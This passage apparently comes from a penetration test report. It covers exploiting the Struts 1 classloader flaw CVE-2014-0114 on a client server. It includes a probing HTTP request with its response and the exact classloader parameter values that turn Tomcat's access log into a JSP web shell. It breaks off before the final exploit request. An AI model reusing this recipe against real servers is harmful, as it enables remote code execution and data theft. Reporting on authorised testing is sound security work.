 149153 files were recovered including financial records.

### Test for struts 1 classloader vulnerability

Having observed the use of the ".do" extension, the tester was able to deduce that the application made use of the struts1 framework (%{client} had also disclosed this information previously). Stuts1 has an unpatched vulnerability, CVE-2014-0114 (https://www.cvedetails.com/cve/CVE-2014-0114/), which was discovered after the framework was marked for end-of-life.

To test for the vulnerability the following request was made and confirmation received that the server was vulnerable was received via a 500 error.

```html
GET /cortel-admin/security/showLoginAdmin.do?class.classLoader.resources=ROOTEDCON HTTP/1.1
Host: 13.54.255.86
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Cookie: JSESSIONID=5B56673D287E7E9B6AB5A8C88AE02EBA; JSESSIONID=32A94721FDF0F7BC669975B435
Connection: close
Upgrade-Insecure-Requests: 1


HTTP/1.1 500 Internal Server Error
Content-Type: text/html
Content-Length: 0
Date: Tue, 24 Oct 2017 04:49:49 GMT
Connection: close
Server: BTB Australia
```

The next step was to build a test lab so that an exploit could developed and tested (experience on a previous test showed that the metasploit module was unreliable). Apache Tomcat 8.0.47 and Struts 1.3.10 were used to build the environment, with a vulnerable application downloaded from [https://github.com/julianvilas/rooted2k15/](https://github.com/julianvilas/rooted2k15/) for testing. 

After some work the tester was able to develop a working exploit that worked in two parts. The first part utilised the classloader vulnerability to set the following values for the default AccessLogValve used by the Tomcat server:

* class.classLoader.resources.context.parent.pipeline.first.pattern=combined
* class.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT
* class.classLoader.resources.context.parent.pipeline.first.prefix=evil_shell 
* class.classLoader.resources.context.parent.pipeline.first.suffix=.jsp
* class.classLoader.resources.context.parent.pipeline.first.fileDateFormat=4

This set the log location to a known file in a directory accessible via HTTPS (i.e. https://13.54.255.86/evil_shell4.jsp) and the logging format to "combined mode", which includes the User-Agent header. 

The second part of the exploit was to develop a one-line JSP shell and embed it in the User-Agent HTTP header, so that when the log file was requested, the embedded JSP would be executed. 

The final exploit sent to the server and response are below:
